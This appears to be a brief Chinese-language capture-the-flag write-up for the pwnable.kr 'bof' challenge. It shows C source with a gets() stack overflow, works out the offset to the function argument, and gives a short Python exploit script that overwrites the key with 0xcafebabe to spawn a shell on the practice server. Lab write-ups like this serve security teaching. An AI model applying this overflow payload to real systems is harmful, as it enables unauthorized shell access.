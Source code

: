 # bof
## 1.分析逻辑
	void func(int key){
		char overflowme[32];
		printf("overflow me : ");
		gets(overflowme);	// smash me!
		if(key == 0xcafebabe){
			system("/bin/sh");
		}
		else{
			printf("Nah..\n");
		}
	}
	int main(int argc, char* argv[]){
		func(0xdeadbeef);
		return 0;
	}
当函数参数为0xcafebabe时，输出flag
##2.漏洞
容易注意到函数内存在gets，因此可进行栈溢出
##3.利用
IDA查看缓冲区位置

```c
	char s; // [esp+1Ch] [ebp-2Ch]
	unsigned int v3; // [esp+3Ch] [ebp-Ch]
	v3 = __readgsdword(0x14u);
	puts("overflow me : ");
	gets(&s);
```

为了覆盖到参数，需要覆盖0x2c+4+4=0x34字节（包括bp和返回地址）

	
	from pwn import *
	from zio3 import *
	target = ('pwnable.kr',9000)
	io = zio('./bof')
	io = zio(target,timeout=10000)
	#io.read_until("overflow me : ")
	payload = b'a' * (0x2c+8)+l32(0xcafebabe)
	io.write(payload)
	io.interact()

